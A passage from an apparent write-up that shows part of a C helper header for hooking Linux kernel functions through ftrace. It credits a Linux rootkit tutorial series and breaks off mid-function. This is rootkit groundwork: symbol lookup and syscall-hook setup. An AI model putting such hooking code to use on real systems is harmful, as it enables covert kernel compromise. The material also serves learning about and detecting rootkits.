 - Next, we implemented the `ftrace_helper.h` to facilitate the hooking (greatly inspired by the
  resource [TheXcellerator](https://xcellerator.github.io/posts/linux_rootkits_02/)) as follows

```c
/*
 * Helper library for ftrace hooking kernel functions
 * Original Author: Harvey Phillips (xcellerator@gmx.com)
 * Edited By: Lado Saha (@sih) 
 * License: GPL
 */

#include "linux/module.h"
#include <linux/ftrace.h>
#include <linux/version.h>
#include <linux/kallsyms.h>

#if defined(CONFIG_X86_64) && LINUX_VERSION_CODE >= KERNEL_VERSION(4, 17, 0)
#define PTREGS_SYSCALL_STUBS 1
#endif
#define HOOK(_name, _hook, _orig)                                        \
	{                                                                \
		.name = _name, .function = (_hook), .original = (_orig), \
	}

/*
 * We need to prevent recursive loops when hooking, otherwise the kernel will
 * panic and hang. The options are to either detect recursion by looking at
 * the function return address, or by jumping over the ftrace call. We use the 
 * first option, by setting USE_FENTRY_OFFSET = 0, but could use the other by
 * setting it to 1. (Oridinarily ftrace provides it's own protections against
 * recursion, but it relies on saving return registers in $rip. We will likely
 * need the use of the $rip register in our hook, so we have to disable this
 * protection and implement our own).
*/
#define USE_FENTRY_OFFSET 0
/* We pack all the information we need (name, hooking function, original function)
 * into this struct. This makes is easier for setting up the hook and just passing
 * the entire struct off to fh_install_hook() later on.
 * */
struct ftrace_hook {
	const char *name;
	void *function;
	void *original;
	unsigned long address;
	struct ftrace_ops ops;
};

/* Ftrace needs to know the address of the original function that we
 * are going to hook. As before, we just use kallsyms_lookup_name() 
 * to find the address in kernel memory.
 * */
static int fh_resolve_hook_address(struct ftrace_hook *hook)
{
	hook->address = kallsyms_lookup_name(hook->name);

	if (!hook->address) {
		printk(KERN_DEBUG "pageman_hook: unresolved symbol: %s\n",
		       hook->name);
		return -ENOENT;
	}

#if USE_FENTRY_OFFSET
	*((unsigned long *)hook->original) = hook->address + MCOUNT_INSN_SIZE;
#else
```